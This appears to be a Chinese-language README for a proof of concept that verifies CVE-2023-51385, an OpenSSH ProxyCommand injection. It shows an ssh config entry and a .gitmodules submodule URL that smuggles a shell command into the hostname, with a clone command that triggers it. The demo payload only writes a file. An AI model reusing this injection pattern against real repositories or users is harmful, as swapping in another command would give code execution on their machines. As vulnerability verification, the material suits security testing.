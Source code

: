 ## 验证CVE-2023-51385

### 首先需要在`~/.ssh/config`增加如下

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

`.gitmodules`文件语句中存在命令注入

```
url = ssh://`echo helloworld > cve.txt`foo.example.com/bar
```

配置完成后,执行下面的指令触发

```
git clone https://github.com/zls1793/CVE-2023-51385_test --recurse-submodules
```

如果成功执行将会在CVE-2023-51385_test目录下生成cve.txt文件

  ![image-20231225234031349](images/image-20231225234031349.png)

详细信息见这篇博客:

https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html


